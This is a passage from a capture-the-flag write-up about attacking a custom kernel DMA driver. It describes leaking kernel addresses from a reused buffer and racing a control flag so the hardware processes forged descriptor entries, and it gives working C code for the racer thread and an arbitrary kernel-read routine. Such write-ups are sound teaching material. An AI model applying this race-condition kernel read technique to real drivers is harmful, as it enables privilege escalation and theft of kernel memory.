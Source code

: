 ```c
      items[i].src = (uint64_t)kaddr[i+1];
    }
```

The driver maps our argument buffer into the kernel, and ultimately reuses the
same memory to build the LLI array for DMA, with translated (kernel)
addresses. We can read out these addresses after the driver call finishes,
leaking the addresses returned by `vmap`.

There are a number of ways to attack the driver with race conditions against the
`secs_do_dma` function. I probably spent a bit too much time during the CTF
thinking about how to win reliably. We might change a src/dst address to an
arbitrary kernel address after it has been set by the driver, but I found a
technique which made my exploit logic easier to handle. If we race the
`ctrl` flag to set `PL666_LLI_MORE` after it has been unset, we can cause the
hardware to handle additional, fully controlled LLI entries. 
```c
    void * racer(void * arg) {
        struct racer_arg * targ = arg;
        volatile struct lli * arg_buf = targ->arg;
        while(1) {
            printf("(Thread 2): Waiting\n");
            while(!racer_run) {};
            printf("(Thread 2): Running\n");
            while(racer_run){
                __atomic_store_n(&(arg_buf[0].ctrl), PL666_LLI_MORE, __ATOMIC_SEQ_CST);
            }
        }
        printf("(Thread 2): Done racer\n");
        return NULL; 
    }
    uint64_t read_kernel(int fd, uint64_t kaddr, uint64_t size) {
        printf("(Thread 1): Read %p:%x\n", kaddr, size);    
        //valid entry, will be read from user to hw
        memset(buf, 0, sizeof(struct lli) * 4);
        buf[0].src  = a;
        buf[0].size = 0x10;
        //forged entry (write from kaddr to hw)
        buf[1].src  = kaddr;
        buf[1].dst  = 0x100;
        buf[1].size = size;
        buf[1].ctrl = 0;
        //do the race
        racer_run = 1;
        for(int i = 0; i < 3; i++) {
          buf[0].src  = a;
          write(fd, buf, sizeof(struct lli));
        }
        racer_run = 0;
        //read out the resulting data
        memset(a, 0x0, size);
        buf[0].dst  = a;
        buf[0].src  = 0x100;
        buf[0].size = size;
        read(fd, buf, sizeof(struct lli));
        void * data = malloc(size);
        memcpy(data, a, size);
        return data;
    }
```
